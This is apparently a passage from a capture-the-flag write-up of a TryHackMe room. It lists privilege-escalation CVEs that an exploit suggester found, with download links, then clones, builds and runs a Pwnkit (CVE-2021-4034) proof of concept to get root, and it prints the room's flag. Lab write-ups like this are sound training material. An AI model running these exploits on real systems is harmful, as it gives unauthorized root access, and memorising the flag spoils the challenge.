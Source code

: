 ```sh
   Tags: mint=19
   Download URL: https://github.com/saleemrashid/sudo-cve-2019-18634/raw/master/exploit.c
   Comments: sudo configuration requires pwfeedback to be enabled.

[+] [CVE-2019-15666] XFRM_UAF

   Details: https://duasynt.com/blog/ubuntu-centos-redhat-privesc
   Exposure: less probable
   Download URL: 
   Comments: CONFIG_USER_NS needs to be enabled; CONFIG_XFRM needs to be enabled

[+] [CVE-2017-5618] setuid screen v4.5.0 LPE

   Details: https://seclists.org/oss-sec/2017/q1/184
   Exposure: less probable
   Download URL: https://www.exploit-db.com/download/https://www.exploit-db.com/exploits/41154

[+] [CVE-2017-0358] ntfs-3g-modprobe

   Details: https://bugs.chromium.org/p/project-zero/issues/detail?id=1072
   Exposure: less probable
   Tags: ubuntu=16.04{ntfs-3g:2015.3.14AR.1-1build1},debian=7.0{ntfs-3g:2012.1.15AR.5-2.1+deb7u2},debian=8.0{ntfs-3g:2014.2.15AR.2-1+deb8u2}
   Download URL: https://github.com/offensive-security/exploit-database-bin-sploits/raw/master/bin-sploits/41356.zip
   Comments: Distros use own versioning scheme. Manual verification needed. Linux headers must be installed. System must have at least two CPU cores.
```

## Pwnkit Exploit

Using the following POC: [Github Link](https://github.com/berdav/CVE-2021-4034)
https://tryhackme.com/room/yearofthejellyfish
```sh
git clone https://github.com/berdav/CVE-2021-4034.git
cd CVE-2021-4034
make
./cve-2021-4034
```

Results :) , we gain **root** and our flag.

![](/assets/img/thm/yotj/20.png)

-------------

# Flag 2
```
THM{YjMyZTkwYzZhM2U5MGEzZDU2MDc1NTMx}
```

:P After looking at different write-ups for other approaches, I Discovered that we can also gain root privileges using the dirty sock exploit for this machine.